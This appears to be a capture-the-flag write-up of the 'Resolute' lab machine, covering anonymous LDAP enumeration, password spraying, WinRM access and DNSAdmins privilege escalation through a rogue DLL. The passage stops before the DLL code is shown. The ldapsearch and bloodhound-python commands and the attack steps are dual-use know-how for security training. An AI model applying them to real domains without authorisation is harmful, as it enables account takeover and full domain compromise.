## Welcome Everyone

Today, the medium-rated ***Resolute*** machine was completed. Let’s dig into the entire process without wasting any more time!

## Information Gathering

First, an Nmap scan was led with service detection and NSE’s default script execution to gather as much information as possible about the targeted system.



Several accessible services through open ports have been identified: 

**DNS** (Port 53)

**Kerberos** (Port 88)

**RPC** (msrpc — Port 135)

**NetBIOS** (Port 139)

**LDAP** (Port 389)

**SMB** (Port 445)

**LDAPS** (Port 636)

**WinRM** (Port 5985)

It could be deduced by the scan results that an Active Directory environment was targeted; the `megabank.local` **domain** and the `resolute.megabank.local` **DC’s FQDN** have been identified by NSE, which confirms that the `resolute` Domain Controller was the targeted host.

Since the assessment started without any credentials/authenticated access, the default Guest account *null session* access was attempted to gather additional information through the identified protocols. However, the account appeared disabled, thereby safely blocking attacks such as ***RID brute-forcing*** or even ***Kerberoasting***. 



Querying anonymously SMB wasn’t conclusive either. However, it was quickly identified that the environment allowed **anonymous LDAP binding**, which could allow an attacker to gather a considerable amount of information about the domain and its objects, such as registered users, groups… without being authenticated within the Active Directory domain.

The sensitive configuration could be confirmed through the following command that queried all objects through the LDAP protocol:

`ldapsearch -x -H ldap://<TARGET_IP> -b 'DC=megabank,DC=local' '(objectClass=*)'`



The size of a system is a factor to consider; as a result, the output of the LDAP search could be massive, as in this lab. However, it was determined through the `sAMAccountName` LDAP attribute that users in the domain all use their first names as usernames, which is a significant piece of information. Therefore, the command was rerun to filter the results and extract only the Distinguished Names of the accounts identified by the command above, in order to reconstruct a valid user list.

`ldapsearch -x -b "dc=megabank,dc=local" "*" -H ldap://megabank.local | grep '^cn:'`



23 domain users could be identified. Thus, a `users.txt` list was created in order to carry out further Kerberos attacks (***AS-REP Roasting***, ***Kerberoasting***,…) that could potentially lead to an initial access.

(The `users.txt` file was created based on the username pattern previously identified via the `sAMAccountName` attribute)



Before moving on, the dangerous bind anonymous configuration continued to be exploited to retrieve the `Description` LDAP attribute field specific to each user in the domain. This could reveal an insecure password stored in a user’s description field:



So the `less` utility was used to filter the research, again.

It revealed that *Marko Novak* was the concerned employee.



## Initial Access

It has been confirmed that the user’s password has been changed, making it impossible to use the account from there.

However, a ***Password Spraying*** attack led through **NetExec** (`nxc`) against the built list of users also revealed that the “`*melanie*`” user account had been configured with that same password. Nevertheless, the employee in question had recklessly left her password unchanged, which could allows an unauthenticated actor to gain an initial access within the domain.



This authenticated access could be leveraged through a collector tool such as bloodhound-python to collect LDAP data before concatenating it into a ZIP file that could then be imported in **BloodHound**  to ****observe **domain objects permissions/nodes** in a graph so it could be clearer to spot potential sensitive configurations. The following command could be executed to generate the file:

`bloodhound-python -u <Compromised_User> -p <Password> -d <Domain> -ns <Ip> -c All --zip`



It could then be imported into the BloodHound GUI as below: 



Once the file ingest completed, the *Explore* tab section was accessed to explore object nodes concerning the `melanie` user account that has been compromised. It has been determined that the user was a member of the ***Remote Management Users*** group.



Just as members of the ***Remote Desktop Users*** group can access the host Windows system remotely via the **RDP** protocol, members of the *Remote Management Users* group can access the system remotely via **WinRM**. This configuration could be perfect for an attacker at this stage of compromise, since it is not RDP that is publicly exposed by the DC, but rather WinRM. 

Consequently, the `evil-winrm` tool could have been used to gain remote access to the target system through the WinRM protocol.



Initial system access successfully granted as the `melanie` user. The first flag could be retrieved in the `C:\Users\melanie\Desktop` user’s Desktop directory.



## Privilege Escalation

After an in-depth local enumeration of the filesystem, a `PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt` hidden Powershell history concerning the `ryan` user’s session that could dangerously be accessed from the `C:\PSTranscripts\20191203\` directories which were accessible by a low-privileged user. Hidden directories that were storing the log file could be identified through the `*PS:* dir -Force` command. 



Since the hardcoded password concerning *ryan* could have been identified as plaintext in the log file, an attacker could leverage this flaw to achieve a critical domain administrator account compromise. (NetExec validated the founded password where BloodHound confirmed the privilege escalation, since *ryan* was part of the ***Tier Zero*** zone.)





Since the user was also a member of the Remote Management Group, its Windows session could be hijacked through `evil-winrm`, as it has been done previously for *melanie*. However, the user did not appear to have any privilege on the Domain Controller.



However, BloodHound revealed that the user demonstrated his administrator privileges through his membership;  the privileged ***Contractors*** and ***DNSAdmins*** groups could have been identified.



Here, as an attacker, the point of interest would be the *DNSAdmins* group. This sensitive group could allows an attacker to achieve full domain compromise.

Here is a Microsoft documentation that explains these privileges at a basic level, but it have been kept in mind that this group allows to members to perform administrative tasks on the DNS server, such as modifying existing records or creating new ones. The exploitation technique consists of building a malicious DLL file that loads a DNS plugin that will be injected into a `dns.exe` process on a victim DNS server. The three following exports are required to properly construct the DNS plugin through the DLL file (written in C/C++):

- `DnsPluginInitialize`
- `DnsPluginQuery`
- `DnsPluginCleanup`

Thus, the following code was used to build the rogue DLL in order to make the `NT AUTHORITY\SYSTEM` privileged local account to execute through `cmd.exe` the controlled binary, such as a `shell.bat` having a Netcat payload.

